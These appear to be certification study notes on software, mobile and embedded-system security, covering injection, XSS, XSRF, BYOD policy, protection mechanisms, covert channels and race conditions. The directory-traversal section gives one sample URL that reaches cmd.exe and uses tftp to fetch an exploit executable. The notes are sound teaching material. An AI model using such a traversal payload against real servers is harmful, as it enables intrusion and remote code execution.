*injection attack* is any exploitation that allows an attacker to submit code to a target system in order to modify its operations and/or poison and corrupt its data set. Example -  Structured Query Language (SQL) injection, Lightweight Directory Access Protocol (LDAP), XML injection, command injection, Hypertext Markup Language (HTML) injection, code injection, and file injection

Two techniques to protect your web applications against SQL injection attacks:

**Perform input validation** Input validation lets you limit the types of data a user provides in a form. `input sanitization `
**Limit account privileges** database account used by the web server should have the smallest set of privileges possible.

> METACHARACTERS
> Metacharacters are characters that have been assigned special programmatic meaning. Example -  [ ] \ ; & ^ $ . | ? * + { } ( )
> *Escaping* a metacharacter is the process of marking the metacharacter as merely a normal or common character, such as a letter or number, thus removing its special programmatic powers. This is often done by adding a backslash in front of the character (\&), but there are many ways to escape metacharacters based on the programming language or execution environment.

*LDAP injection* web server front end uses a script to craft LDAP statements based on input from a user, then LDAP injection is potentially a threat. 

*XML injection* where the backend target is an XML application.

> DIRECTORY TRAVERSAL/COMMAND INJECTION
> A directory traversal is an attack that enables an attacker to jump out of the web root directory structure and into any other part of the filesystem hosted by the web server’s host OS

```
http://victim.com/scripts/..% c0 % af../..% c0 % af../..% c0 % af../..% c0 % af../..% c
0 % af../..% c0 % af../winnt/system32/cmd.exe?/c+tftp+-i+get+exploit.exe
```
*XML exploitation* is a form of programming attack that is used to either falsify information being sent to a visitor or cause their system to give up information without authorization.  One area of growing concern in regard to XML attacks is Security Association Markup Language (SAML). SAML is often used to provide a web-based SSO (single sign-on) solution. If an attacker can falsify SAML communications or steal a visitor’s access token, they may be able to bypass authentication and gain unauthorized access to a site.

*Cross-site scripting (XSS)* is a form of malicious code-injection attack in which an attacker is able to compromise a web server and inject their own malicious code into the content sent to other visitors. Inject the code via Common Gateway Interface (CGI) scripts, web server software vulnerabilities, SQL injection attacks, frame exploitation, DNS redirects, cookie hijacks, and many other forms of attack. 

For the `administrator of a website`, defenses against XSS include maintaining a `patched` web server, using `web application firewalls`, operating a host-based intrusion detection system (`HIDS`), `auditing` for suspicious activity, and, most important, performing server-side `input validation` for length, malicious content, and metacharacter filtering. `As a web user`, you can defend against XSS by keeping your system `patched`, running `antivirus` software, and avoiding nonmainstream websites. There are add-ons for some web browsers, such as NoScript for Firefox and uBlock Origin for Chrome, that allow only scripts of your choosing to be executed.

*Cross-site request forgery (XSRF)* is an attack that is similar in nature to XSS. However, with XSRF, the attack is focused on the visiting user’s web browser more than the website being visited. Purpose of XSRF is to trick the user or the user’s browser into performing actions they had not intended or would not have authorized. 

Website administrators can implement prevention measures against XSRF by requiring confirmations or reauthentication whenever a sensitive or risky action is requested by a connected client. Another potential protection mechanism is to add a randomization string (called a nonce) to each URL request and session establishment and to check the client HTTP request header referrer for spoofing.

## Assess and Mitigate Vulnerabilities in Mobile Systems

Malicious insiders can bring in malicious code from outside on various storage devices, including mobile phones, audio players, digital cameras, memory cards, optical discs, and Universal Serial Bus (USB) drives.  Malicious insiders can execute malicious code, visit dangerous websites, or intentionally perform harmful activities.

> A device owned by an individual can be referenced using any of these terms: portable device, mobile device, personal mobile device (PMD), personal electronic device or portable electronic device (PED), and personally owned device (POD).

Mobile devices are common targets of hackers and malicious code. It’s important to keep nonessential information off portable devices, run a firewall and antivirus product (if available), and keep the system locked and/or encrypted (if possible). mobile devices aren’t immune to eavesdropping

### DEVICE SECURITY

Not all portable electronic devices (PEDs) have good security features. But even if devices have security features, they’re of no value unless they’re enabled and properly configured. Be sure to consider the security options of a new device before you make a purchase decision.

#### Full Device Encryption

* Encryption isn’t a guarantee of protection for data, especially if the device is stolen while unlocked or if the system itself has a known backdoor attack vulnerability.

* Voice encryption may be possible on mobile devices when Voice over Internet Protocol (VoIP) services are used

#### Remote Wiping

* It’s becoming common for a *remote wipe or remote sanitation* to be performed if a device is lost or stolen. A remote wipe lets you delete all data and possibly even configuration settings from a device remotely.

* A remote wipe isn’t a guarantee of data security. Thieves may be smart enough to prevent connections that would trigger the wipe function while they dump out the data. Additionally, a remote wipe is mostly a deletion operation. The use of an undelete or data recovery utility can often recover data on a wiped device. 

* The device should be encrypted. Thus, the undelete operation would only be recovering encrypted data.

#### Lockout

* Lockout on a mobile device is similar to account lockout on a company workstation. When a user fails to provide their credentials after repeated attempts, the account or device is disabled (locked out) for a period of time or until an administrator clears the lockout flag.

#### Screen Locks

* A screen lock is designed to prevent someone from casually picking up and being able to use your phone or mobile device.

#### GPS

* You can use GPS tracking to monitor your own movements, track the movements of others (such as minors or delivery personnel), or track down a stolen device. But for GPS tracking to work, the mobile device must have internet or wireless phone service over which to communicate its location information.

#### Application Control

* Application control is a device-management solution that limits which applications can be installed onto a device

* Using application control can often reduce exposure to malicious applications by limiting the user’s ability to install apps that come from unknown sources or that offer non-work-related features.

#### Storage Segmentation

On a mobile device, the device manufacturer and/or the service provider may use storage segmentation to isolate the device’s OS and preinstalled apps from user-installed apps and user data. Some mobile device-management systems further impose storage segmentation in order to separate company data and apps from user data and apps.

#### Asset Tracking

* Asset tracking is the management process used to maintain oversight over an inventory, such as deployed mobile devices.
* An asset-tracking system can be passive or active. Passive systems rely on the asset itself to check in with the management service on a regular basis. Active system uses a polling or pushing technology to send out queries to devices in order to elicit a response.

#### Inventory Control

* The term inventory control may describe hardware asset tracking.
* Mobile devices with RFID or NFC capabilities may be able to interact with objects or their containers that have been electronically tagged.

#### Mobile Device Management

* Mobile device management (MDM) is a software solution to the challenging task of managing the myriad mobile devices that employees use to access company resources.

* The goals of MDM are to improve security, provide monitoring, enable remote management, and support troubleshooting

* MDM can be used to manage company-owned devices as well as personally owned devices (such as in a bring your own device [BYOD] environment).

#### Device Access Control

* A strong password would be a great idea on a phone or other mobile device if locking the phone provided true security

#### Removable Storage

* Many mobile devices support removable storage. Some devices support microSD cards.
* Many mobile devices also support external USB storage devices, such as flash drives and external hard drives. These may require a special on-the-go (OTG) cable.

#### Disabling Unused Features

* Its important to remove apps and disable features that aren’t essential to business tasks or common personal use.

### APPLICATION SECURITY

#### Key Management

The best option for key storage is usually removable hardware or the use of a Trusted Platform Module (TPM), but these are rarely available on mobile phones and tablets.

#### Credential Management

*Credential management solutions* offer a means to securely store a plethora of credential sets. Often these tools employ a master credential set (multifactor being preferred) to unlock the dataset when needed. Some credential-management options can even provide auto-login options for apps and websites.

#### Authentication

Whenever possible, use a password, provide a personal identification number (PIN), offer your eyeball or face for recognition, scan your fingerprint, or use a proximity device such as an NFC or RFID ring or tile.

it’s also prudent to combine device authentication with device encryption to block access to stored information via a connection cable.

#### Geotagging

Geotagging can be used for nefarious purposes, such as determining when a person normally performs routine activities. Once a geotagged photo has been uploaded to the internet, a potential cyber-stalker may have access to more information than the uploader intended. This is prime material for security-awareness briefs for end users.

#### Encryption

Encryption is often a useful protection mechanism against unauthorized access to data, whether in storage or in transit.

#### Application Whitelisting

Application whitelisting is a security option that prohibits unauthorized software from being able to execute. Whitelisting is also known as *deny by default or implicit deny*

### BYOD CONCERNS

*Bring your own device (BYOD)* is a policy that allows employees to bring their own personal mobile devices into work and use those devices to connect to (or through) the company network to business resources and/or the internet.

A BYOD policy that mandates specific devices may reduce this risk, but it may in turn require the company to purchase devices for employees who are unable to purchase their own compliant device.

There are several alternatives to a BYOD policy, including COPE, CYOD, corporate owned, and VDI.

Concept of *company-owned, personally enabled* (COPE) is for the organization to purchase devices and provide them to employees. Each user is then able to customize the device and use it for both work activities and personal activities.

*Choose your own device (CYOD)* provides users with a list of approved devices from which to select the device to implement.

*Corporate-owned mobile strategy* is when the company purchases the mobile devices that can support security compliance with the security policy. These devices are to be used exclusively for company purposes, and users should not perform any personal tasks on the devices.

*Virtual desktop infrastructure (VDI)* is a means to reduce the security risk and performance requirements of end devices by hosting virtual machines on central servers that are remotely accessed by users. 

*Virtual mobile infrastructure (VMI)*, where the operating system of a mobile device is virtualized on a central server. This remote virtualization allows an organization greater control and security than when using a standard mobile device platform. 

#### Data Ownership

When a personal device is used for business tasks, commingling (mix; blend) of personal data and business data is likely to occur.

For example, if a device is lost or stolen, the company may wish to trigger a remote wipe, clearing the device of all valuable information. However, the employee will often be resistant to this, especially if there is any hope that the device will be found or returned.

Mobile device policy regarding data ownership should address backups for mobile devices. Business data and personal data should be protected by a backup solution.

##### Support Ownership

When an employee’s mobile device experiences a failure, a fault, or damage, who is responsible for the device’s repair, replacement, or technical support? The mobile device policy should define what support will be provided by the company and what support is left to the individual and, if relevant, their service provider.

##### Patch Management

The mobile device policy should define the means and mechanisms of patch management for a personally owned mobile device.

##### Antivirus Management

The mobile device policy should dictate whether antivirus, anti-malware, and antispyware scanners are to be installed on mobile devices. The policy should indicate which products/apps are recommended for use, as well as the settings for those solutions.

##### Forensics

The mobile device policy should address forensics and investigations as related to mobile devices. Some processes of evidence gathering can be destructive, and some legal investigations require the confiscation of devices.

##### Privacy

The mobile device policy should address privacy and monitoring. When a personal device is used for business tasks, the user often loses some or all of the privacy they enjoyed prior to using their mobile device at work.

##### On-boarding/Off-boarding

The mobile device policy should address personal mobile device on-boarding and off-boarding procedures. Mobile device `onboarding` includes installing security, management, and productivity apps along with implementing secure and productive configuration settings. Mobile device `off-boarding` includes a formal wipe of the business data along with the removal of any business-specific applications. In some cases, a full device wipe and factory reset may be prescribed.

##### Adherence to Corporate Policies

A mobile device policy should clearly indicate that using a personal mobile device for business activities doesn’t exclude a worker from adhering to corporate policies. 

##### User Acceptance

A mobile device policy needs to be clear and specific about all the elements of using a personal device at work. For many users, the restrictions, security settings, and MDM tracking implemented under company policy will be much more onerous than they expect.

##### Architecture/Infrastructure Considerations

If every worker brings in a personal device, the number of devices on the network may double. This requires planning to handle IP assignments, communications isolation, data-priority management, and increased intrusion detection system (IDS)/intrusion prevention system (IPS) monitoring load, as well as increased bandwidth consumption, both internally and across any internet link. Most mobile devices are wireless enabled, so this will likely require a more robust wireless network and dealing with Wi-Fi congestion and interference. 

##### Legal Concerns

Company attorneys should evaluate the legal concerns of mobile devices. Using personal devices in the execution of business tasks probably means an increased burden of liability and risk of data leakage.

##### Acceptable Use Policy

The mobile device policy should either reference the company acceptable use policy or include a mobile device–specific version focusing on unique issues. Workers should remain mindful that the primary goal when at work is to accomplish productivity tasks.

##### On-board Camera/Video

The mobile device policy needs to address mobile devices with on-board cameras. Some environments disallow cameras of any type. This would require that mobile devices be without a camera. If cameras are allowed, a description of when they may and may not be used should be clearly documented and explained to workers.

## Assess and Mitigate Vulnerabilities in Embedded Devices and Cyber-Physical Systems

The embedded system is typically designed around a limited set of specific functions in relation to the larger product of which it’s a component. Typical computer system, or it may be a microcontroller (an integrated chip with on-board memory and peripheral ports). Example - e network-attached printers, smart TVs, HVAC controls, smart appliances, smart thermostats, vehicle entertainment/driver assist/self-driving systems, and medical devices.

Another similar concept to that of embedded systems are static systems (aka static environments). A static environment is a set of conditions, events, and surroundings that don’t change. In theory, once understood, a static environment doesn’t offer new or surprising elements.

### EXAMPLES OF EMBEDDED AND STATIC SYSTEMS

Network-enabled devices are any type of portable or nonportable device that has native network capabilities.

*Cyber-physical* systems refer to devices that offer a computational means to control something in the physical world. In the past these might have been referred to as embedded systems, but the category of cyber-physical seems to focus more on the physical world results rather than the computational aspects. Cyber-physical devices and systems are essentially key elements in robotics and sensor networks. Examples of cyber-physical systems include prosthetics to provide human augmentation or assistance, collision avoidance in vehicles, air traffic control coordination, precision in robot surgery, remote operation in hazardous conditions, and energy conservation in vehicles, equipment, mobile devices, and buildings.

Another extension of cyber-physical systems, embedded systems, and network-enabled devices is that of the *Internet of Things (IoT)*. IoT devices are usually `static systems` since they may only run the firmware provided by the manufacturer.

`Mainframes` are high-end computer systems used to perform highly complex calculations and provide bulk data processing.  Older mainframes may be considered static environments cause they used to serve only one task for a longer duration of the time(operate for decades). Modern mainframes are much more flexible and are often used to provide high-speed computation power in support of numerous virtual machines. 

`Game consoles`, whether home systems or portable systems, are potentially examples of static systems. The more flexible and open-ended the app support, the less of a static system it becomes.

Early `in-vehicle` systems were static environments with little or no ability to be adjusted or changed, especially by the owner/driver. Modern in-vehicle systems may offer a wider range of capabilities, including linking a mobile device or running custom apps.

### METHODS OF SECURING EMBEDDED AND STATIC SYSTEMS

Security concerns regarding embedded and static systems include the fact that most are designed with a focus on minimizing costs and extraneous features. This often leads to a lack of security and difficulty with upgrades or patches. Although they may not have as broad an attack surface and aren’t exposed to as many risks as a general-purpose computer, they still require proper security government.

#### Network Segmentation

Network segmentation involves controlling traffic among networked devices. Complete or `physical network segmentation` occurs when a network is isolated from all outside communications, so transactions can only occur between devices within the segmented network. You can impose `logical network segmentation` with switches using virtual local area networks (`VLANs`), or through other traffic-control means, including MAC addresses, IP addresses, physical ports, TCP or UDP ports, protocols, or application filtering, routing, and access control management.

#### Application Firewalls

It’s intended to be an application-specific server-side firewall to prevent application-specific protocol and payload attacks. 

A *network firewall* is a hardware device, typically called an appliance, designed for general network filtering. A network firewall is designed to provide broad protection for an entire network.

You should use both firewalls in a series to complement each other, rather than seeing them as competitive solutions.

#### Manual Updates

Manual updates should be used in static environments to ensure that only tested and authorized changes are implemented. Using an automated update system would allow for untested updates to introduce unknown security reductions.

#### Firmware Version Control

Firmware updates should be implemented on a manual basis, only after testing and review. Oversight of *firmware version control* should focus on maintaining a stable operating platform while minimizing exposure to downtime or compromise.

#### Wrappers

A wrapper is something used to enclose or contain something else. Wrappers are well known in the security community in relation to Trojan horse malware. A wrapper of this sort is used to combine a benign host with a malicious payload.

Wrappers are also used as encapsulation solutions. Some static environments may be configured to reject updates, changes, or software installations unless they’re introduced through a controlled channel.

#### Monitoring

Any and all devices, equipment, and computers within an organization should be monitored to ensure high performance, minimal downtime, and detecting and stopping violations and abuse.

#### Control Redundancy and Diversity

Defense in depth uses multiple types of access controls in literal or theoretical concentric circles or layers.  By having security control redundancy and diversity, a static environment can avoid the pitfalls of a single security feature failing; the environment has several opportunities to deflect, deny, detect, and deter any threat.

## Essential Security Protection Mechanisms

The need for security mechanisms within an operating system comes down to one simple fact: software should not be trusted. 

### TECHNICAL MECHANISMS

Technical mechanisms are the controls that system designers can build right into their systems. We’ll look at five: layering, abstraction, data hiding, process isolation, and hardware segmentation.

#### Layering

By layering processes, you implement a structure similar to the ring model used for operating modes (and discussed earlier in this chapter) and apply it to each operating system process. t puts the most sensitive functions of a process at the core, surrounded by a series of increasingly larger concentric circles with correspondingly lower sensitivity levels (using a slightly different approach, this is also sometimes explained in terms of upper and lower layers, where security and privilege decrease when climbing up from lower to upper layers).

> The top of a layered or multilevel system is the same as the center ring of a protection ring scheme. Likewise, the bottom of a layered or multilevel system is the same as the outer ring of a protection ring scheme. In terms of protection and access concepts, levels, layers, and rings are similar. The term domain (that is, a collection of objects with a singular characteristic) might also be used.

Communication between layers takes place only through the use of well-defined, specific interfaces to provide necessary security. All inbound requests from outer (less-sensitive) layers are subject to stringent authentication and authorization checks before they’re allowed to proceed (or denied, if they fail such checks). 

#### Abstraction

Abstraction is one of the fundamental principles behind the field known as *object-oriented programming*. It is the `black-box` doctrine that says that users of an object (or operating system component) don’t necessarily need to know the details of `how the object works`; they need to know just the proper syntax for using the object and the type of data that will be returned as a result (that is, `how to send input and receive output`). This is very much what’s involved in mediated access to data or services, such as when user mode applications use system calls to request administrator mode services or data (and where such requests may be granted or denied depending on the requester’s credentials and permissions) rather than obtaining direct, unmediated access.

Another way in which abstraction applies to security is in the introduction of object groups, sometimes called *classes*, where access controls and operation rights are assigned to groups of objects rather than on a per-object basis. This approach allows security administrators to `define and name groups easily` (the names are often related to job roles or responsibilities) and helps make the administration of` rights and privileges easier `(when you add an object to a class, you confer rights and privileges rather than having to manage rights and privileges for each object separately).

#### Data Hiding

Data hiding is an important characteristic in multilevel secure systems. It ensures that data existing at one level of security is not visible to processes running at different security levels. `need to know`

#### Process Isolation

Process isolation requires that the operating system provide separate memory spaces for each process’s instructions and data. It also requires that the operating system enforce those boundaries, preventing one process from reading or writing data that belongs to another process. 

Two advantages:

* It prevents unauthorized data access
* It protects the integrity of processes

Many modern operating systems address the need for process isolation by implementing virtual machines on a per-user or per-process basis. As part of the mediated access to the system that the operating system provides, it maps virtual resources and access in user mode so that they use supervisory mode calls to access corresponding real resources. This not only makes things easier for programmers, it also protects individual users and processes from one another.

#### Hardware Segmentation

Hardware segmentation is similar to process isolation in purpose—it prevents the access of information that belongs to a different process/security level. The main difference is that hardware segmentation enforces these requirements through the use of physical hardware controls rather than the logical process isolation controls imposed by an operating system.

### SECURITY POLICY AND COMPUTER ARCHITECTURE

The role of a security policy is to inform and guide the design, development, implementation, testing, and maintenance of a particular system. For system developers, a security policy is best encountered in the form of a document that defines a set of rules, practices, and procedures that describe how the system should manage, protect, and distribute sensitive information. 

Security policies that prevent information flow from higher security levels to lower security levels are called `multilevel security policies`.

### POLICY MECHANISMS

These mechanisms are extensions of basic computer security doctrine, but the applications described in this section are specific to the field of computer architecture and design.

#### Principle of Least Privilege

This principle is also important to the design of computers and operating systems, especially when applied to system modes. In general, it’s better to use APIs to ask for supervisory mode services or to pass control to trusted, well-protected supervisory mode processes as they’re needed from within user mode applications than it is to elevate such programs or processes to supervisory mode altogether.

#### Separation of Privilege

It requires the use of granular access permissions; that is, different permissions for each type of privileged operation. This allows designers to assign some processes rights to `perform certain supervisory functions` without granting them unrestricted access to the system

Think of separation of duties as the application of the principle of least privilege to administrators. In most moderate to large organizations, there are many administrators, each with different assigned tasks.

Separation of duties is also a tool used to prevent `conflicts of interest` in the assignment of access privileges and work tasks. For example, those persons responsible for programming code should not be tasked to test and implement that code. 

#### Accountability

Such capabilities rely on a system’s ability to `monitor activity` on and `interactions with a system’s resources and configuration data and to protect resulting logs from unwanted access or alteration` so that they provide an accurate and reliable record of activity and interaction that documents every user’s (including administrators or other trusted individuals with high levels of privilege) history on that system.

## Common Architecture Flaws and Security Issues

### COVERT CHANNELS

A *covert channel* is a method that is used to pass information over a path that is not normally used for communication. Using a covert channel provides a means to violate, bypass, or circumvent a security policy undetected. Example -  vulnerabilities of security architectures.

A covert channel is the opposite of an *overt channel*. An overt channel is a known, expected, authorized, designed, monitored, and controlled method of communication.

Two basic types of covert channels:

* **Covert Timing Channel** conveys information by altering the performance of a system component or modifying a resource’s timing in a predictable manner - secretly transfer data and is very difficult to detect.

* **Covert Storage Channel** channel conveys information by writing data to a common storage area where another process can read it. 

The best defense is to implement auditing and analyze log files for any covert channel activity.

### ATTACKS BASED ON DESIGN OR CODING FLAWS AND SECURITY ISSUES

  * Certain attacks may result from poor design techniques, questionable implementation practices and procedures, or poor or inadequate testing.  back doors because they avoid security measures by design. Extensive testing and code review are required to uncover such covert means of access, which are easy to remove during final phases of development but can be incredibly difficult to detect during the testing and maintenance phases.

  * [OWASP Top 10 Web Application Security Risks](https://www.owasp.org/images/7/72/OWASP_Top_10-2017_%28en%29.pdf.pdf)

  * In the sections that follow, we cover common sources of attack or vulnerabilities of security architectures that can be attributed to failures in design, implementation, prerelease code cleanup, or out-and-out coding mistakes. 

#### Trusted Recovery

  * Trusted recovery ensures that all security controls remain intact in the event of a crash. 
  * During a trusted recovery, the system ensures that there are no opportunities for access to occur when security controls are disabled. Even the recovery phase runs with all controls intact.

#### Input and Parameter Checking

  * One of the most notorious security violations is a *buffer overflow*. his violation occurs when programmers fail to validate input data sufficiently, particularly when they do not impose a limit on the amount of data their software will accept as input. Thus, the type of attack that results when someone attempts to supply malicious instructions or code as part of program input is called a buffer overflow

  *  Due diligence from programmers can eradicate buffer overflows completely, but only if programmers `check all input and parameters` before storing them in any data structure (and limit how much data can be proffered as input). Proper data validation is the only way to do away with buffer overflows.

#### Maintenance Hooks and Privileged Programs

Maintenance hooks are entry points into a system that are known only by the developer of the system. Such entry points are also called back doors.

Another common system vulnerability is the practice of executing a program whose security level is elevated during execution. A good example of this is root-owned world-writable executable scripts in the Unix/Linux OS environment.

#### Incremental Attacks

Some forms of attack occur in slow, gradual increments rather than through obvious or recognizable attempts to compromise system security or integrity. Two such forms of attack are data diddling and the salami attack.

*Data diddling* occurs when an attacker gains access to a system and makes small, random, or incremental changes to data during storage, processing, input, output, or transaction rather than obviously altering file contents or damaging or deleting entire files

The *salami attack* is more mythical by all published reports. The name of the attack refers to a systematic whittling at assets in accounts or other records with financial value, where very small amounts are deducted from balances regularly and routinely. Metaphorically, the attack may be explained as stealing a very thin slice from a salami each time it’s put on the slicing machine when it’s being accessed by a paying customer.

### PROGRAMMING

Any program that does not `handle any exception` gracefully is in danger of exiting in an unstable state. It is possible to cleverly crash a program after it has increased its security level to carry out a normal task. If an attacker is successful in crashing the program at the right time, they can attain the higher security level and cause damage to the confidentiality, integrity, and availability of your system.

### TIMING, STATE CHANGES, AND COMMUNICATION DISCONNECTS

Attackers can develop attacks based on the predictability of task execution. The common sequence of events for an algorithm is to check that a resource is available and then access it if you are permitted. The `time of check (TOC)` is the time at which the subject checks on the status of the object. There may be several decisions to make before returning to the object to access it. When the decision is made to access the object, the procedure accesses it at the `time of use (TOU`). The difference between the TOC and the TOU is sometimes large enough for an attacker to `replace the original object with another object that suits their own needs`. Time of check to time of use (`TOCTTOU`) attacks are often called `race conditions` because the attacker is racing with the legitimate process to replace the object before it is used. A classic example of a TOCTTOU attack is replacing a data file after its identity has been verified but before data is read.

TOCTTOU attacks, race condition exploits, and communication disconnects are known as *state attacks* because they attack timing, data flow control, and transition between one system state to another.

### TECHNOLOGY AND PROCESS INTEGRATION

As multiple technologies and complex processes are intertwined in the act of crafting new and unique business functions, new issues and security problems often surface. As systems are integrated, attention should be paid to potential single points of failure as well as to emergent weaknesses in *service-oriented architecture (SOA)*.

The resulting application is often new; thus, its security issues are unknown, untested, and unprotected. 

### ELECTROMAGNETIC RADIATION

Simply because of the kinds of electronic components from which they’re built, many computer hardware devices emit electromagnetic (EM) radiation during normal operation. The process of communicating with other machines or peripheral equipment creates emanations that can be intercepted. It’s even possible to re-create keyboard input or monitor output by intercepting and processing electromagnetic radiation from the keyboard and computer monitor. 

By reducing the signal strength and increasing the physical buffer around sensitive equipment, you can dramatically reduce the risk of signal interception.

Several TEMPEST technologies could provide protection against EM radiation eavesdropping:

* *Faraday cage* is a special enclosure that acts as an EM capacitor. When a Faraday cage is in use, no EM signals can enter or leave the enclosed area. 

* *Jamming or noise generators* use the idea that it is difficult or impossible to retrieve a signal when there is too much interference.

* The only issue with this concept is that you have to ensure that the interference won’t affect the normal operations of your devices. One way to ensure that is to use *control zones*, which are Faraday cages used to block purposely broadcast interference. 

Example:

For example, if you wanted to use wireless networking within a few rooms of your office but not allow it anywhere else, you could enclose those rooms in a single Faraday cage and then plant several noise generators outside the control zone. This would allow normal wireless networking within the designated rooms but completely prevent normal use and eavesdropping anywhere outside those designated areas.